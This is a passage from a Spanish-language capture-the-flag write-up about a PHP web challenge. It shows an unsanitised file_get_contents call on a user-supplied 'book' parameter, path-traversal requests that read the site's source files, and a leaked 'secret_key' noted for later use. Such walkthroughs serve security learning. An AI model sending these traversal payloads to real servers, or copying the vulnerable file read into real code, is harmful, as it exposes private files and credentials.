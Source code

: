 ```php
        $out = mysqli_fetch_all($res,MYSQLI_ASSOC);
    }
    elseif($_POST['method'] == 1){
        $out = file_get_contents('../books/'.$_POST['book']);
    }
    else{
        $out = false;
    }
    echo json_encode($out);
}
```

**e.e)**

Si recordamos teniamos un archivo para subir objetos `.zip`, veamos su estructura:

```php
book=../portal/php/files.php&method=1
```

```php
<?php 

session_start();
$LOGGED_IN = false;
if($_SESSION['username'] !== "paul"){
    header("Location: ../index.php");
}
if(isset($_SESSION['loggedIn'])){
    $LOGGED_IN = true;
    require '../db/db.php';
}
else{
    header("Location: ../auth/login.php");
    die();
}

?>

<html lang="en">
<head>
    <title>Binary</title>
    ...
...
```

La razón por la que no podemos entrar es porque **no es `paul` el que hace la petición** :O 

Despues de dar algunas vueltas entre archivos buscando cositas, encontré una cadena interesante que quizás nos pueda servir despues (`secret_key`):

```php
book=../portal/authController.php&method=1
```
